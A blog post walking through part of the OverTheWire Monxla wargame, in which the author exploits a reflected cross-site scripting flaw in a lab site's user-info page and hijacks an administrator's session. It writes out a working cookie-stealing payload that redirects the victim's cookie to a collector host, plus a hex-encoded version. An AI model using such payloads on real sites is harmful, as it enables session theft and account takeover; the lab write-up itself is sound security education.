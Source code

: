 ```yaml
---
layout: post
title: "OverTheWire Monxla Part 2"
date: 2012-11-25T05:05:00-05:00
comments: true
categories:
 - overthewire
 - wargames
 - linux
 - monxla
---
```


In the previous post, I showed how to get the PDF that outlines the services running on the Monxla VM image. This article will continue where that one left off.

<!-- more -->

Firstly, the PDF explains that there are 2 virtual hosts enabled on the machine. To configure my machine for these virtual hosts, I added these lines to my /etc/hosts file: 

```
192.168.188.134 nasenko.otw
192.168.188.134 honeylink.otw
```

There are 2 sites immediately available to you:

* The HoneyLink site is, so far, just a convenience for the wargame, so you don't have to setup your own HTTP server.  It gives you a prefix URL, that you can prepend anything you want to the end.  It will then show you the responses as they come in. {% img /images/monxla2_2.png %}
* The Nasenko home page. This is what appears to be the main application that we are attacking. It has a Bookmark Service, and the Notes service, which were referenced in the PDF, immediately visible. {% img /images/monxla2_1.png %}

After poking around a bit, I found that you are unable to access the Notes service, since you're not logged in. Per the blog article on the main page, login attempts are disabled. On the Bookmarks page, it says that the submitted bookmarks are being visited routinely. These two statements combined immediately made me think of using a [Session Hijacking](https://en.wikipedia.org/wiki/Session_hijacking) attack to steal the session of the user already logged in, checking the submitted bookmarks. 

To get started with my attack, I tried submitting several bookmarks, which were always rejected.  There was some sort of filtering going on, on the server side.  For some reason, I decided to try submitting the Nasenko site itself, and saw that it was actually accepted.  This means that I could at least submit data, as long as it was from the same website.  From there, that made me start thinking about finding a [Cross-Site Scripting](https://en.wikipedia.org/wiki/Cross-site_scripting) vulnerability, so that I could redirect the traffic, and combine it with the Session Hijack attack. 

After searching for a bit, I found a Cross-Site Scripting vulnerability in the User Info page.  It wasn't cleanly filtering user input, so I was able to inject javascript into the "username" parameter. 

{% img /images/monxla2_3.png %}

To combine these two attacks, I crafted a URL that would use the Cross-Site Scripting attack to allow me to submit it from the proper host, as well as stealing the user's cookie: 

```
http://nasenko.otw/userinfo.php?username=<script>document.location='http://honeylink.otw/tH3zwj4P1z/cookie'+document.cookie;</script> 
```

However, due to some URL encoding issues (mainly the "+" splitting the parameter), I had to URL encode it using the [Burp Suite](http://portswigger.net/burp/): 

```
http://nasenko.otw/userinfo.php?username=%3c%73%63%72%69%70%74%3e%64%6f%63%75%6d%65%6e%74%2e%6c%6f%63%61%74%69%6f%6e%3d%27%68%74%74%70%3a%2f%2f%68%6f%6e%65%79%6c%69%6e%6b%2e%6f%74%77%2f%74%48%33%7a%77%6a%34%50%31%7a%2f%63%6f%6f%6b%69%65%27%2b%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%3b%3c%2f%73%63%72%69%70%74%3e
```

I submitted the URL to the Bookmark Service, and it gladly accepted it.  I then switched to the HoneyLink page, and clicked the "Refresh" button, and saw that my click had indeed been registered.  And lucky for me, it had the cookie listed:

{% img /images/monxla2_4.png %}

I then added a cookie with the stolen value. 

{% img /images/monxla2_5.png %}

When I then went to the Notes Service, which previously denied me access, I was able to view them. This meant it was successful. We successfully stole a valid user's session.

{% img /images/monxla2_6.png %}

